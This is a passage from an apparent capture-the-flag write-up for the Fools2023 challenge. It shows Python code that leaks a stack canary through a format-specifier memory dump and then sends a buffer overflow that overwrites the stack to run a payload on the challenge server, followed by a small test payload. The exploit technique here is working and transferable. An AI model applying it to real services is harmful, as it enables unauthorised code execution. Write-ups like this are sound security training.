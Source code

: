 ```python
        raise RuntimeError("Unexpected response for leak")
    hexvals = out[47:].split(b'\n')[0]
    result = bytearray(bytes.fromhex(hexvals.decode('ascii')))
    if len(result) % 2 != 0:
        raise RuntimeError("Unexpected length of leaked bytes, expected power of two")
    # We're dumping by using the read16 format specifier, this undoes
    # the endianess, so we get the correct byte order
    for i in range(0, len(result), 2):
        temp = result[i]
        result[i] = result[i + 1]
        result[i + 1] = temp
    return bytes(result)


def execute_on_infsrv(payload: bytes) -> bytes:
    target_buffer_address = 0xF753
    payload_target_address = 0xF800
    canary_address = 0xFE00
    stack_overwrite_start_address = 0xFE80
    stack_overwrite_value = 0xF800

    f = foolsocket.FoolsSocket("fools2023.online", 13339)
    f.expect(b'characters): ')
    f.communicate(format_addr_dump(canary_address - 2) + b'\n')
    f.expect(b'to leave: ')

    # Extract stack canary
    f.communicate(b'A\n')
    canary = extract_data_leak(f.expect(b'to leave: '))[2:6]
    print(f"Stack canary: {canary}")

    overflow_bytes = b'A' * (payload_target_address - target_buffer_address)
    padding = b'B' * (canary_address - (payload_target_address + len(payload)))
    stack_overwrite_padding = b'S' * (stack_overwrite_start_address - (canary_address + 4))
    stack_overwrite = stack_overwrite_value.to_bytes(2, byteorder='little') * int(
        (0xFF00 - stack_overwrite_start_address) / 2)
    pwn = overflow_bytes + payload + padding + canary + stack_overwrite_padding + stack_overwrite + b'\n'

    f.communicate(pwn)
    return f.read_until_eof()

```

Let's try running this simple payload, that should print the character `'A'` using `swi 01` and then terminate the connection afterwards (using `swi 03`):

```python
out = execute_on_infsrv(b'\x10\x41\x00\x06\x01\x06\x03')
print(out)
```

